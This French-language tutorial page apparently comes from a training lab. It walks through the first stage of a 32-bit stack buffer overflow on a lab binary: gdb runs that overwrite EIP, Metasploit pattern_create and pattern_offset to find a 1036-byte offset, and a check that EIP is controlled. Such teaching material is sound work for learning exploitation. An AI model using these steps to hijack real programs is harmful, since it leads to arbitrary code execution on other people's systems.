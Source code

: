# Take Control of EIP

{% hint style="warning" %}
Un des aspects les plus importants d'un débordement de tampon basé sur la pile est de prendre le contrôle du pointeur d'instruction (EIP), afin que nous puissions lui indiquer vers quelle adresse il doit sauter. Cela fera pointer l'EIP vers l'adresse où notre shellcode commence et amènera le CPU à l'exécuter.
{% endhint %}

### <mark style="color:red;">Erreur de Segmentation</mark>

#### <mark style="color:green;">Prendre le Contrôle d'EIP</mark>

{% code fullWidth="true" %}
```bash
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```
{% endcode %}

Si nous insérons 1200 "U" (hex "55") comme entrée, nous pouvons voir à partir des informations du registre que nous avons écrasé l'EIP. Comme nous le savons, l'EIP pointe vers la prochaine instruction à exécuter.

#### <mark style="color:green;">Prendre le Contrôle d'EIP</mark>

{% code fullWidth="true" %}
```bash
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP écrasé
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP écrasé
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

***

Cela signifie que nous avons un accès en écriture à l'EIP. Ceci, à son tour, permet de spécifier vers quelle adresse mémoire l'EIP doit sauter. Cependant, pour manipuler le registre, nous avons besoin d'un nombre exact de U jusqu'à l'EIP afin que les 4 octets suivants puissent être écrasés avec notre adresse mémoire désirée.

***

### <mark style="color:red;">Déterminer le Décalage</mark>

Le décalage est utilisé pour déterminer combien d'octets sont nécessaires pour écraser le tampon et combien d'espace nous avons autour de notre shellcode.

{% hint style="warning" %}
Le shellcode est un code de programme qui contient des instructions pour une opération que nous voulons que le CPU exécute. La création manuelle du shellcode sera discutée plus en détail dans d'autres modules. Mais pour économiser du temps d'abord, nous utilisons le Metasploit Framework (MSF) qui offre un script Ruby appelé "pattern\_create" qui peut nous aider à déterminer le nombre exact d'octets pour atteindre l'EIP. Il crée une chaîne unique basée sur la longueur d'octets que vous spécifiez pour aider à déterminer le décalage.
{% endhint %}

#### <mark style="color:green;">Créer un Motif</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
mrroboteLiot_1@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```
{% endcode %}

Maintenant nous remplaçons nos 1200 "U" avec les motifs générés et concentrons à nouveau notre attention sur l'EIP.

#### <mark style="color:green;">GDB - Utilisation du Motif Généré</mark>

{% code fullWidth="true" %}
```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```
{% endcode %}

#### <mark style="color:green;">GDB - EIP</mark>

```bash
(gdb) info registers eip

eip            0x69423569	0x69423569
```

Nous voyons que l'EIP affiche une adresse mémoire différente, et nous pouvons utiliser un autre outil MSF appelé "pattern\_offset" pour calculer le nombre exact de caractères (décalage) nécessaire pour avancer jusqu'à l'EIP.

#### <mark style="color:green;">GDB - Décalage</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si nous utilisons maintenant précisément ce nombre d'octets pour nos "U", nous devrions atterrir exactement sur l'EIP. Pour l'écraser et vérifier si nous l'avons atteint comme prévu, nous pouvons ajouter 4 octets supplémentaires avec "\x66" et l'exécuter pour nous assurer que nous contrôlons l'EIP.

#### <mark style="color:green;">Décalage GDB</mark>

{% code fullWidth="true" %}
```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Maintenant nous voyons que nous avons écrasé l'EIP avec nos caractères "\x66". Ensuite, nous devons découvrir combien d'espace nous avons pour notre shellcode, qui exécutera alors les commandes que nous avons l'intention d'exécuter. Comme nous contrôlons maintenant l'EIP, nous l'écraserons plus tard avec l'adresse pointant vers le début de notre shellcode.
